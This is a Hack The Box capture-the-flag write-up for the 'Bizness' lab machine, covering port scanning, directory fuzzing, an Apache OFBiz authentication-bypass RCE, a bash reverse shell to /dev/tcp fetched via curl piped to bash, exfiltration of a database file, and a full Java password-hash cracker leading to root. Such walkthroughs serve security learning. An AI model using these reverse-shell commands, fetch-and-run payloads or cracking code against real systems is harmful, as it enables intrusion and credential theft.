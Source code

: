 ```yaml
---
title: HTB Bizness Writeup
author: Elus1nist
layout: post
date: 14 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/1919b64800f6676d0c0d285a9d664cee.png
---
```

Welcome! This is my writeup of the new Season 4 Easy machine from HTB, Bizness. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.252
```
This gives us the scan results of:

```sh
Nmap scan report for 10.10.11.252
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `bizness.htb` (add to `/etc/hosts` file)
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating HTTP

Once we add to our hosts file we can visit the HTTP webpage and see the following:

<img src="{{- 'writeup_images/Bizness/Bizness_Webpage.png' | relative_url}}" >

### Directory Fuzzing

Fuzzig for directories with feroxbuster:
```sh
feroxbuster --url http://bizness.htb --filter-status 404
```
From the fuzzing we discover a directory - `/accounting`

Visiting this page:
<img src='../writeup_images/Bizness/Bizness_Webpage_accounting.png'>

---
---
## Public Exploit - (CVE-2023-51467 and CVE-2023-49070)

After a quick search of the vulnerabilities for OFBiz we stumble across this github page - [OFBiz Authentication Bypass RCE](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

After download ing the exploit I write a simple reverse shell bash script `bash_shell.sh`:
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.73/9101 0>&1
```
Then on my attacker machine I start a python http server on port 9001 and a nc listener on port 9101.

Running the exploit as follows results in a reverse shell:
```sh
python3 exploit.py --url http://bizness.htb --cmd 'curl http://10.10.16.73:9001/bash_shell.sh | /bin/bash'
```

This gives us the user flag in the `/home/ofbiz` directory

---
---
## Hash Reversing

Once we have the shell we can find and exfiltrate the `c54d0.dat: Derby Database` file.

Extracting important information from file:
```sh
grep c54d0.dat -e 'Password'

./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```

We need to now see how the application Hashes its passwords and hopefully we can reverse engineer a password cracker:

Using the commens-codec library and rockyou.txt wordlist we can write the following cracker in Java:
```java
import org.apache.commons.codec.binary.Base64;
import java.io.BufferedReader;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.io.IOException;
import java.io.FileReader;
import java.io.*;

public class Main {
    public static void main(String[] args) {

        System.out.println("Starting Attack");
        System.out.flush();
        String filePath = "/usr/share/wordlist/rockyou.txt";

        try (BufferedReader reader = new BufferedReader(new FileReader(filePath))) {
            String line;

            while ((line = reader.readLine()) != null) {
                System.out.println("[*] Trying word: "+ line);
                byte[] bytes = line.getBytes(StandardCharsets.UTF_8);
                String hash = cryptBytes("SHA", "d", bytes);
                System.out.println(hash);
                if (hash.equals("$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I")){
                    System.out.println("[+] Password: " + line);
                    break;
                }
            }
        } catch (IOException ignored) {}
    }

    public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }

    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance("SHA");
            messagedigest.update("d".getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new RuntimeException("Error while comparing password", e);
        }
    }
}
```
This gives us the cracked password:
`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I : monkeybizness`

---
---
## Privelege Escalation

Once we have a password we can try logging in as `root`:

```
su
monkeybizness
```

BOOM! PWNED.ZIP ACHIEVED!

<img src="https://giffiles.alphacoders.com/206/206739.gif">